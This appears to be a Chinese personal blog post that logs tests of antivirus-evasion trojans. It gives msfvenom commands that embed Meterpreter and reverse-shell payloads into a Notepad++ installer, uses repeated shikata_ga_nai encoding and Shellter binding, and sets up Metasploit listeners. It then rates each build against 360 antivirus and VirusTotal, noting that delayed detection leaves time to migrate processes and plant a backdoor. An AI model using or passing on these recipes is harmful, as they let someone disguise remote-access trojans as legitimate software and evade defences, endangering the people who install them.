 ```yaml
---
title: 免杀木马测试
date: 2022-4-18 20:48:36
tags: [Trojan horse,Linux,Kali,Metasploit,shellter]
categories: 
 - 木马-Trojan horse
cover: https://res.cloudinary.com/sycamore/image/upload/v1682443502/Typera/2023/04/38939d28722be4a8ad01b5cca9bd13a1.png
---
```


:::default
**测试杀软：360 全家桶**
:::

## MSF

`msfconsole`

- **mp_npp:**（2022/4/16）
	- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.158.139 LPORT=4444 -x npp.8.1.4.Installer.exe -f exe > mp_npp.exe`
	<br>
	- **监听**：
		- `use exploit/multi/handler`
		- `set payload windows/meterpreter/reverse_tcp`
		- `set LHOST 192.168.158.139`
		- `set LPORT 4444`
		- `run`
	-  **免杀效果：**
		- 不能完全通过 **静态扫描**，快速扫描没事，指定文件夹扫描木马会报毒，且运行时会**第一时间**检测出木马
		- **virustotal** 的检测情况（**40 /  70**）：[检测报告](https://www.virustotal.com/gui/file/c3a7c2280e4aa9aa0693729049f7f8e0ff05e253c1047ef282748c3509687207)
- **mp_rc4_npp_i15：**（2022/4/18）
	- `msfvenom -p windows/meterpreter/reverse_tcp_rc4 LHOST=192.168.158.139 LPORT=4444 -e x86/shikata_ga_nai -x npp.8.1.4.Installer.exe -i 15 -f exe > mp_rc4_npp_i15.exe`
	<br>
	- **监听**：
		- `use exploit/multi/handler`
		- `set payload windows/meterpreter/reverse_tcp_rc4`
		- `set LHOST 192.168.158.139`
		- `set LPORT 4444`
		- `run`
	- **免杀效果：**
		- 能过 **360静态检测**，但会被 **动态检测** 查杀
		- **virustotal** 的检测情况（**38 /  70**）：[检测报告](https://www.virustotal.com/gui/file/84391493d82a5878f2a2eaa9465e95b4eae09bc8486d514cc19a741b1918721b)

- **sh_npp_i27：**（2022/4/18）
	- `msfvenom -p windows/shell_reverse_tcp LHOST=192.168.158.139 LPORT=4444 -e x86/shikata_ga_nai -x npp.8.1.4.Installer.exe -i 27 -f exe > sh_npp_i27.exe`
	<br>
	- **监听**：
		- `use exploit/multi/handler`
		- `set payload windows/shell_reverse_tcp_rc4`
		- `set LHOST 192.168.158.139`
		- `set LPORT 4444`
		- `run`
	- **免杀效果：**
		- 能过 **360静态检测**，但会被 **动态检测** 查杀
		- **virustotal** 的检测情况（**35 /  69**）：[检测报告](https://www.virustotal.com/gui/file/0a95d390c8165cfce1dd4ce40764e27dbfd89bd396c6a2a58ae662e623aa6233?nocache=1)

## shellter 捆绑免杀
- **shellter_npp：**（2022/4/16）
	- payload 选择 **shellter 自带**的：Meterpreter_Reverse_TCP （选项 1）
	- **免杀效果：**
		- 能过 **360静态检测**，**动态检测** 报毒会有 **大约一分钟** 的延迟（时间上足够**迁移进程**+**布置后门**）
		- **virustotal** 的检测情况（**31 /  70**）[检测报告](https://www.virustotal.com/gui/file/e4e97bef85f3970d42e81d6f75815050d7ff2370790888fe9d78948bc83b30a7)
